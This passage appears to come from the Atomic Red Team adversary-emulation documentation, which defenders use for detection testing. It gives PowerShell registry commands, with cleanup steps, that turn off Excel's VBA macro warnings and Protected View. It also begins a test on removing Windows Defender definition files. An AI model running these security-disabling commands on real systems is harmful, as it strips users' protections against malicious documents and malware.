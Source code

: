 



<br/>
<br/>

## Atomic Test #18 - Disable Microsoft Office Security Features
Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will not
show any warning before editing the document.


https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows


**auto_generated_guid:** 6f5fb61b-4e56-4a3d-a8c3-82e13686c6d7






#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -ErrorAction Ignore | Out-Null
Remove-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #19 - Remove Windows Defender Definition Files
Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.
On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the
command will say completed.
